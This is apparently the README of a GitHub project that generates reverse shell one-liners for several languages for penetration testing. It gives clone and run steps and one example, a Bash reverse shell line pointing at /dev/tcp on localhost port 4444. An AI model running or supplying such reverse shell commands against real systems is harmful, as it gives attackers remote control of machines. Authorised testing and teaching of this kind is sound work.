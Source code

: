 # Reverse Shell One-Liner Generator

A Python script to generate reverse shell commands for various programming languages. Useful for ethical penetration testing and demonstration purposes.

## Features
- Generate reverse shell commands for Bash, Python, PHP, PowerShell, and more.
- Customizable IP address and port.
- Option to save commands to a file.

## Usage
1. Clone the repository:
git clone https://github.com/Mick19j/ReverseShellGenerator.git

2. Run the script:
python ReverseShellGenerator.py

## Output Example
Bash:
bash -i >& /dev/tcp/127.0.0.1/4444 0>&1

## Screenshot
![image](https://github.com/user-attachments/assets/357791bc-2578-4592-a50a-50b7ea916942)


## Disclaimer
**For educational and authorized use only. Misuse of this tool may result in legal consequences.**


## License:
This project is licensed under the **MIT License**. See the [LICENSE](LICENSE) file for details.
